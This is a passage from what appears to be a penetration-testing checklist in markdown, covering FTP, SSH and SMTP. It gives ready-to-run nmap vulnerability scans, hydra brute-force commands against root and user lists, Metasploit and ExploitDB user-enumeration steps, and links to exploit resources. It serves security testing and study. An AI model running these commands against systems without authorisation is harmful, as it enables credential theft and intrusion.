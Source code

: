 		nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -Pn -oN nmap/ftpVuln -p 21 $IP
		```
- [ ] Default credentials check
	```bash
	hydra -s <PORT> -C usr/share/wordlists/ftp-default-userpass.txt -u -f $IP ftp
	```
### SSH (TCP 22)
- [ ]  [Banner grabbing](Methodologies/recon_enum_methodology🛰.md#grab-the-damn-banner)
- [ ] User enumeration
	```bash
	# using msf
	msf > use auxiliary/scanner/ssh/ssh_enumusers
	# leveraging exploit from ExploitDB
	python /usr/share/exploitdb/platforms/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $IP
	 ```
- [ ] Bruteforce root
	```bash
	hydra -v -V -l root -P password-file.txt ssh://$IP
	```
- [ ] Bruteforce list of user
	```bash
	hydra -v -V -L userlist.txt -P password-file.txt ssh://$IP
	```
- [ ] Use requested Key Exchange List
	```bash
	ssh user@$IP -oKexAlgorithms={kex\_list}
	```
- [ ] Use requested cipher
	```bash
	ssh user@$IP -c {cipher}
	```
- [ ] Use requested MAC
	```bash
	ssh user@$IP -m {MAC}
	```
### SMTP (TCP 25)
- [ ] Enumeration with nmap
	```bash
	nmap --script smtp-commands,smtp-enum-users,smtp-ntlm-info,smtp-open-relay -Pn -oN nmap/smtpEnum -p 25,465,587 $IP
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
		```bash
		site:github.com *Service version.release*
		```
	- [ ] Check with nmap
		```bash
		nmap --script smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -Pn -p 25,465,587 -oN nmap/smtpVuln $IP
		```
- [ ] nc -nvv $IP
- [ ] manual testing with **telnet** and VRFY / EXPN

[vulnscan.nse]: https://github.com/scipag/vulscan
[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum]: http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
[https://www.exploit-db.com/exploits/34900]: https://www.exploit-db.com/exploits/34900
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
[Owasp code injection]: https://owasp.org/www-community/attacks/Code_Injection